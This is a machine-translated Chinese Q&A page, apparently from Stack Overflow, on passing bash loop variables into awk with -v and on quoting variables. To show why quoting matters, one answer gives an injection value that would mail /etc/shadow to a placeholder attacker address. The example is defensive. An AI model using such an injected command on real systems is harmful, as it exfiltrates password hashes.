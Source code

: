 * * *

## 回答 #1

> 赞同：3
> 
> 时间：2012-11-07T15:25:47.763

单引号不允许变量扩展。所以`"$i"`被扩展为 , 的值`$i`，但`'$i'`它是一个文字`$i`。

假设变量将在脚本中正确展开通常是不安全的。您不想将脚本放在双引号中。相反，使用 awk 的选项将 的值传递`$i`到 awk 脚本中。`-v`

```
#!/bin/bash

index=101,102,103,104,105

for i in 1 2 3 4 5; do
  echo "$index" | awk -F, -vi="$i" '{print $i}'
done 
```

由于这是一个示例，并且我不确定您是否*真的*会使用 for 循环来生成 的值`$i`，因此您应该记住将双引号括起来，`$i`这样如果它包含空格或其他奇怪的字符，您就不要' t 破坏您的脚本并意外执行您不想执行的操作。虽然它并不总是必要的，但*始终*建议在 bash 中引用您的变量。小心≈好。如果`$i`要获得 的值`"1;mail h4x0r@example.net < /etc/shadow;true"`，那么您将处于危险之中，没有引号。带引号，你只是有一个失败的脚本。

* * *

## 回答 #2

> 赞同：1
> 
> 时间：2012-11-07T13:44:08.370

您必须将 的值传递`i`给 awk：

```
#!/bin/bash

index=101,102,103,104,105

for i in 1 2 3 4 5
do
    /bin/echo "$index" | /bin/awk -v i=$i -F\, '{print $i}'
done 
```

否则，`i`脚本中的值对于 awk 是未知的，默认情况下它采用`0`. 所以它会像你说的那样打印`$0`。

* * *

## 回答 #3

> 赞同：1
> 
> 时间：2012-11-07T13:50:10.547

